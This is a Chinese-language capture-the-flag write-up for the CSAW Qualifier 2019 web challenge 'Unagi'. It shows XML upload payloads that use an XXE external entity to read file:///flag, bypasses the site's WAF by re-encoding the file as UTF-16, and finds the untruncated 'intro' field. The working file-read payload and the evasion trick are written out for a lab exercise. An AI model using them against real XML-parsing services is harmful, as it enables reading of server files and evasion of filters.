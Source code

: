 # [CSAWQual 2019]Web_Unagi
![](<./img/Pasted image 20230215154426.png>)

```
/index.php
```

![](<./img/Pasted image 20230215154507.png>)

```
/user.php
```

![](<./img/Pasted image 20230215154544.png>)

```
/upload.php
```

![](<./img/Pasted image 20230215154614.png>)

```
/sample.xml
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
</users>
```

```
/about.php
```

![](<./img/Pasted image 20230215154632.png>)

尝试进行XXE

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>sad</username>
        <password>114514</password>
        <name>CrackTC</name>
        <email>123@baidu.com</email>  
        <group>&flag;</group>
    </user>
</users>
```

![](<./img/Pasted image 20230215170047.png>)

遭到了WAF的拦截

转换文件编码为`utf16`后成功绕过

![](<./img/Pasted image 20230215171839.png>)

`group`属性貌似会被截断，干脆全改上

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>  
        <group>&flag;</group>
    </user>
</users>
```

![](<./img/Pasted image 20230215172853.png>)

然鹅都被截断了qaq

最后发现原来还有个`intro`没写在sample里

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>
        <group>&flag;</group>
        <intro>&flag;</intro>
    </user>
</users>
```

![](<./img/Pasted image 20230215173018.png>)
